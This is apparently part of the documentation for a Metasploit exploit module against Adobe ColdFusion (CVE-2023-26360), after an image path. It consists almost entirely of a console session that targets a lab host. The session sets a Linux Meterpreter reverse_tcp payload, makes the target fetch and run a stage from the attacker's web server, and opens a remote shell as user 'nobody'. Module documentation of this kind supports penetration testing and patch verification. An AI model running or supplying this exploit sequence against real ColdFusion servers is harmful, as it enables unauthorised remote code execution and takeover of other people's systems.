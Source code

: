 ### Linux Dropper (Adobe ColdFusion 2021 Update 5 on Ubuntu 22.04)
```
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 4
target => 4
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.0.98
RHOST => 172.23.0.98
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.0.98:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Using URL: http://172.23.9.70:8080/lzD4G6tt1
[*] Client 172.23.0.98 (curl/7.81.0) requested /lzD4G6tt1
[*] Sending payload to 172.23.0.98 (curl/7.81.0)
[*] Sending stage (3045348 bytes) to 172.23.0.98
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (172.23.9.70:4444 -> 172.23.0.98:43168) at 2023-04-06 12:29:23 +0100
[*] Server stopped.

meterpreter > getuid
Server username: nobody
meterpreter > pwd
/opt/ColdFusion2021/cfusion/bin
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.0.98 - Meterpreter session 2 closed.  Reason: User exit
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```
